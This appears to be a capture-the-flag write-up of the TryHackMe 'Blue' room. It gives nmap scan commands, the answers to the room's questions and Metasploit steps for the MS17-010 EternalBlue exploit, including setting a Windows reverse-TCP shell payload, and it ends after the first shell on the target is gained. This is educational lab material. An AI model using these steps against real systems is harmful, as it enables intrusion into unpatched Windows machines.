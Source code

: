 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-1.png">
<strong> Room Link: </strong> <a href="https://tryhackme.com/r/room/blue"> https://tryhackme.com/r/room/blue</a>



##### Room Contents:

1. Task 1: Recon
2. Task 2: Gain Access
3. Task 3: Escalate
4. Task 4: Cracking
5. Task 5: Find Flags!






Task 1: Recon  

Q: Scan the machine.   
A: No answer needed. 

Q: How many ports are open with a port number under 1000?
A: 3

Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
A: ms17-010


```
nmap -vv -p- -T4 10.10.14.28
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-2.png">


```
nmap -sV -sC --script vuln 10.10.14.28
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-4.png">



Task 2: Gain Access

Exploit the machine and gain a foothold.

 
Start Metasploit

A: No answer needed

 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-5.png">
 
 
Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

A: exploit/windows/smb/ms17_010_eternalblue
 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-6.png">


Q: Show options and set the one required value. What is the name of this value? (All caps for submission)

A: RHOSTS
 
 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-7.png"> 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-8.png"> 
 
Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!

A: No answer needed

 
Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 



<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/thm-blue-badge.png">





